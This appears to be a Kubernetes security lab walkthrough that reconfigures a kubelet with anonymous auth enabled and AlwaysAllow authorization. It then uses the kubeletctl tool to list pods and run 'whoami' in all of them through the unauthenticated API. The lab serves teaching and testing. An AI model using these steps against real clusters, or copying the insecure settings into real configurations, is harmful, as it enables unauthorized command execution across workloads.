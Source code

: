 
#### Step 1 Make a request to Kubelet API:
```sh
apt install net-tools
netstat -ntlp
curl -k -X GET https://localhost:10250/pods
```
#### Step 2 Modify the Kubelet Configuration file:
```sh
cd /var/lib/kubelet
cp config.yaml config.yaml.bak
```

```sh
Set anonymous auth to true
Authorization Mode to AlwaysAllow
```

```sh
systemctl restart kubelet
systemctl status kubelet
```

#### Step 3 Make Request to Kubelet API:
```sh
curl -k -X GET https://localhost:10250/pods
```
#### Step 4 Download kubeletctl:

##### GitHub Repo

https://github.com/cyberark/kubeletctl

```sh
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.6/kubeletctl_linux_amd64 && chmod a+x ./kubeletctl_linux_amd64 && mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```

```sh
kubeletctl pods -i
kubeletctl run "whoami" --all-pods -i
```

#### Step 5 Verify the certificate of the kubelet for node authorizer group:
```sh
openssl x509 -in  /var/lib/kubelet/pki/kubelet-client-current.pem -text -noout
```
